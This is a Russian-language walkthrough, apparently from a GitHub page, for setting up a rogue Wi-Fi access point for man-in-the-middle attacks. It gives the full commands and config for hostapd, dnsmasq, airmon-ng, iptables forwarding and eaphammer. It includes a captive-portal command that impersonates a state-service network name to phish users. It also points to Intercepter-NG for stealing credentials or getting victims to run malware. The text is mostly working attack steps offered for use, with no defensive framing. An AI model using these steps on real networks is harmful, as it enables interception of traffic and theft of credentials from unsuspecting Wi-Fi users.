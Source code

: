 *Вводим комманды*
```
ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0;
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1;
dnsmasq -C dnsmasq.conf -d
```
*Затем пишем конфиг к hostapd*
`vi hostapd.conf`
```
interface=wlan0
driver=nl80211
ssid=MITIWIFI
hw_mode=g
channel=11
macaddr_acl=0
ignore_broadcast_ssid=0
auth_algs=1
wpa=2
wpa_passphrase=mitmwifi123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_group_rekey=86400
ieee80211n=1
wme_enabled=1
```

*Сохраняем и запускаем*

```
airmon-ng check kill;
iwconfig wlan0 mode monitor;
ifconfig wlan0 up;
hostapd ./hostapd.conf
```


*Перенаправление*
```
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE;
iptables --append FORWARD --in-interface wlan0 -j ACCEPT;
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>
```

Пример команды для создания captive portal ддя атак методами соцальной инженерии:
```
./eaphammer -i wlan0 --essid Гостелеком --captive-portal
``` 
адаптер в обычном режиме.

Более интересная техника с использованием MITM атаки и программы Interceter-NG позволяющая методами социальной инженерии получить учетные данные пользователей или даже вынудить пользователя запустить вредоноcное ПО на клиентском устройстве. Потребуется устройство на Windows с отключенным Defender'ом для работы с софтом.
[https://www.youtube.com/watch?v=l2Xbm9TInKc](CAPTIVE PORTAL на Intercepter-NG.)
